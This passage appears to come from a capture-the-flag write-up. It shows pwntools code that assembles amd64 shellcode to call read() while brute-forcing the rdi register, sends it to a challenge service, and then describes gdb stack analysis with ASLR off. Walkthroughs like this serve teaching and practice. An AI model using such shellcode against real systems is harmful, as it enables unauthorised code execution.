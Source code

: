 Our first shellcode to do a read() with bruteforcing rdi can be as following:

```python
payload = asm(
    'mov esi, 0xfac300\n' + 
    'pop rdi\n'*1 +                 # Dunno stack so bruteforce
    'syscall\n'
    , arch='amd64')
p.sendlineafter(b'shellcode?\n', payload)
p.interactive()
```

Debug with gdb with ASLR off to get how many `pop rdi` we need to make rdi to null. This is when we have just jumped into our shellcode:

![check-stack-jumped-shellcode.png](images/check-stack-jumped-shellcode.png)

Analyzing stack and we can get this:

![check-stack.png](images/check-stack.png)
